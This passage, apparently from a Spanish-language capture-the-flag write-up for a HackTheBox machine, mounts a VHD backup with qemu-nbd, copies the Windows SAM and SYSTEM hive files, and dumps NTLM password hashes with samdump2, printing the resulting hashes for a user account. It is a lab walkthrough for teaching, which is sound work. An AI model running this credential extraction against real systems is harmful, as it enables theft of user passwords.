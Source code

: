 Luego nos montamos `9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd` utilizando la herramienta `qemu-utils` .

Primero nos instalamos la utilidad.
```console
intrusionz3r0@kali:~$  sudo apt-get install qemu-utils
```
Después cargamos el modulo de kernel `nbd`.
```console
intrusionz3r0@kali:~$ sudo rmmod nbd 
intrusionz3r0@kali:~$ sudo modprobe nbd max_part=16
```
Levantamos el servicio `qemu-nbd` y montamos la partición.

```
intrusionz3r0@kali:~$ sudo qemu-nbd -c /dev/nbd0 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd1
intrusionz3r0@kali:~$ sudo mount /dev/nbd0p1 /mnt/HTB/vhd
```

# Enumeración de disco virtual.

Si Accedemos a la ruta encontraremos algo como lo siguiente:

![](https://lh6.googleusercontent.com/gg90RKn8-7IUYPOSeuSPaoQfru2Cr4Pu-2AXtlmIkIWxn9f9LHWhKP7I_2ppFzUt_A43VXcTRmzzEk-IT6wy-yPuH0S-746HcrDNFqKck72Mj_236QJRdamr79ZUQGTnttLY4gVg)

Enumerando un poco el disco me percate de que tenemos permisos máximos en los archivos **SAM** y **SYSTEM**.

```console3
intrusionz3r0@kali:~$ ls -la
...
...
.rwxrwxrwx  root  root   256 KB  Fri Feb 22 06:39:21 2019    SAM
.rwxrwxrwx  root  root   9.2 MB  Fri Feb 22 06:43:54 2019    SYSTEM
```

**¿Que son los archivo SAM y SYSTEM?**

* El archivo **SAM** (Security Account Manager) es un fichero que se encarga de almacenar credenciales de los usuarios en el sistema operativo de Windows.

* El archivo **SYSTEM**  es el archivo el cual se utiliza para proteger el archivo SAM, este tiene la clave para descifrar el contenido del archivo **SAM**.

# Volcado de hashes.

Me muevo los archivos a mi máquina local y utilizo la herramienta `samdump2` para volcar los hashes `NTLM`.

> NTLM es el proveedor predeterminado de autenticación de windows.

```console
intrusionz3r0@kali:~$ samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::v
```

